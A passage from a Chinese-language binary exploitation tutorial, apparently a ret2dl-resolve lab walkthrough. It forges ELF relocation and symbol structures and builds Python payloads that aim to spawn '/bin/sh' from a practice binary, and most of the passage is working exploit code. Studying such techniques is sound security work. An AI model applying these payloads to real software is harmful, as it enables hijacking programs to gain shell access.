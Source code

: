 其中设置`r_offset`为`write@got`，标函数解析后的内存地址存放到该位置。

`r_info`用`readelf -r ./bof | grep write`查找后照搬。动态加载器会根据这个值找到对应的`Elf_Sym`

`reloc_index`要调整为我们伪造 `Elf_Rel `结构体相对`.rel.plt`的偏移。

```python
cmd = "/bin/sh"
plt_0 = 0x08048380 # objdump -d -j .plt bof
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof
index_offset = (base_stage + 28) - rel_plt # base_stage + 28指向fake_reloc，减去rel_plt即偏移
write_got = elf.got['write']
r_info = 0x607 # write: Elf32_Rel->r_info
fake_reloc = p32(write_got) + p32(r_info)

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
payload2 += fake_reloc # (base_stage+28)的位置
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
```

第四步，伪造一个 write 函数的 `Elf_Sym `结构体。

用`readelf -s ./bof | grep write` 然然后用objdump来找st_name与st_info

![image-20210523130030115](image-20210523130030115.png)

同时，`Elf_Rel `结构体也要改变r_info可以通过`r_sym`和`r_type`计算。

`r_sym`又是`Elf_Sym `相对`.dynsym`的偏移，`r_type`照搬`R_386_JUMP_SLOT`的值为0x7

```python
cmd = "/bin/sh"
plt_0 = 0x08048380 # objdump -d -j .plt bof
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof
index_offset = (base_stage + 28) - rel_plt # base_stage + 28指向fake_reloc，减去rel_plt即偏移
write_got = elf.got['write']
dynsym = 0x080481d8 #
dynstr = 0x08048278
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_sym=index_dynsym << 8
r_type=0x7
r_info = (r_sym) | r_type
fake_reloc = p32(write_got) + p32(r_info)
st_name = 0x4c
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
payload2 += fake_reloc # (base_stage+28)的位置
payload2 += 'B' * align
payload2 += fake_sym # (base_stage+36)的位置
payload2 += 'A' * (80 - len(payload2))
```
